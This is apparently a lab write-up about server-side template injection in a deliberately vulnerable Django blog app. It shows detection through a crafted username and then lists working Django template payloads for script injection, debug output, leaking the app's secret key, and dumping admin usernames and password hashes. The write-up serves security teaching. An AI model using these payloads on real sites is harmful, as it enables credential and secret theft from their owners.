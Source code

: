 # Server Side Template Injection

### 1. Detection


Observe the [Setting Page](https://blog-vul.herokuapp.com/setting/), you can see that username is a dynamic content and displayed __Hi, Username__.

![Web page display username](https://user-images.githubusercontent.com/83699106/132437761-05b5e2dc-98e0-4c50-8cb2-7e9e0c9c33b1.png)



Register an account.You will be realized that it don't control the username format and this web use Django framwork. So you can register an account with an special username.


### 2. Exploitation


#### Identify the underlying engine.

Python has some template engine such as Tornaldo, Jinja, Django, ... . Now , sign up an account with username is a formula evaluation. 

`{{ 7 * 7 }}`

But it doesn't work. 
![image](https://user-images.githubusercontent.com/83699106/132441238-1b673cff-9fd0-4fd6-b0c1-d11cb83bec05.png)


Maybe it use Django template because DJT do not allow formula evaluation by default. Trying another payload.

`{% debug %}`

![image](https://user-images.githubusercontent.com/83699106/132442170-d95e57e5-9147-4592-bc53-ef614f8ca80d.png)


__Successfully__, It displayed debug content in username. 



After indentify the template engine that it's using is DJT. We can exploit futher. The impact of this attack in DJT is not serious than other template languages and these are some payload you can use to exploit.

__Cross-site scripting__
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}

```

__Debug information leak__
```

{% debug %}

```

__Leaking app’s Secret Key__
```
{{ messages.storages.0.signer.key }}

```
__Admin username and password hash leak__
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

```

To clear understand about SSTI attack and Ways to exploit Django template above. You can see [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)
           
        
